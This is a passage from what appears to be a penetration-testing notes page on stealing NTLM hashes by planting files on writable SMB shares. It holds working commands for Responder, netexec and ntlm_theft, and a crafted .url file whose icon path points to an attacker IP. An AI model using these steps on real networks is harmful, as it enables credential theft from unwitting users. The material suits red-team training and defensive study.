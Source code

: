 Listen (MSF's `auxiliary/server/capture/smb` can also be used):

```bash
sudo responder -I tun0
```

Clean up:

{% code overflow="wrap" %}
```bash
nxc smb <target-ip> -u <user> -p <pass> -M drop-sc -o CLEANUP=True FILENAME=README
```
{% endcode %}
{% endtab %}

{% tab title="URL" %}
A `.url` file is a Windows Internet Shortcut linking to a web or network resource. It stores the target URL and optional metadata, including an `IconFile` for a custom icon. While not executable, it can reveal user activity, mapped paths, or be abused in phishing attacks by automatically opening the linked resource.

{% code title="@hax.url" %}
```
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.241\%USERNAME%.icon
IconIndex=1
```
{% endcode %}

```bash
smb: \> put @hax.url 
putting file @hax.url as \@hax.url (1.2 kb/s) (average 1.2 kb/s)
```

When a user opens the `.url` file, the system attempts to load the specified icon. This triggers a network request to the host serving the icon, typically referencing the filename with the user’s account name. The request can also carry the NTLM hash of the account, exposing credentials during the retrieval process.
{% endtab %}

{% tab title="ntlm_theft" %}
[`ntml_theft`](https://github.com/Greenwolf/ntlm_theft) is a tool that generates 21 different types of hash theft documents, e.g. `.scf` or `.lnk` files.

{% code overflow="wrap" %}
```bash
# Generate all possible files
ntlm_theft.py -g all -s <attacker-ip> -f test

# Listen
sudo responder -I tun0

# Upload the file into a writable share
nxc smb <target-ip> -u <user> -p <pass> --share <share-name> --put-file test/test.lnk test.lnk
```
{% endcode %}
{% endtab %}
{% endtabs %}
